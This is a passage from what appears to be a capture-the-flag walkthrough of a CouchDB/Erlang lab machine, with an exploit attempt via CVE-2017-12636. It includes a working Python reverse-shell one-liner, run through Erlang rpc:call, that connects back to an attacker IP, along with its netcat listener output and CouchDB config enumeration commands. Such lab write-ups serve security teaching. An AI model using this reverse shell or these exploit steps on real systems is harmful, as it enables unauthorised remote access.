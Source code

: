 ```

(0xdf@canape)4> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\", 9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).

```

```

root@kali# nc -lnvp 9005
listening on [any] 9005 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.70] 60162
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(homer) gid=1000(homer) groups=1000(homer)

```

Now that we have a shell as homer, we could grab the user flag, and continue towards privesc. However, without homer’s password, we won’t be able to sudo as required in the path above.

#### Unsuccessful Attempt Via CVE-2017-12636

CVE-2017-12636 allows for code execution through the couchdb process. However, it won’t work in this configuration.

There are a few POCs out there as reference:
- https://raw.githubusercontent.com/vulhub/vulhub/master/couchdb/CVE-2017-12636/exp.py
- https://www.exploit-db.com/exploits/44913/

We’d need to write a new query\_server, and then invoke that. When Canape was released, most of the POCs were for couchdb 1.x, but this box is running 2, so the query\_servers path from most of the POCs doesn’t exist. That’s changed now, but we’ll walk the same steps. First, get the version, and show that the 1.X path doesn’t exist:

```

www-data@canape:/var/www/git$ curl http://localhost:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/_config/query_servers/
{"error":"not_found","reason":"Database does not exist."}

```

Update with the new path for 2.0:

```

www-data@canape:/var/www/git$ curl 'http://0xdf:df@localhost:5984/_membership'
{"all_nodes":["couchdb@localhost"],"cluster_nodes":["couchdb@localhost"]}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
{"coffeescript":"./bin/couchjs ./share/server/main-coffee.js","javascript":"./bin/couchjs ./share/server/main.js"}

```
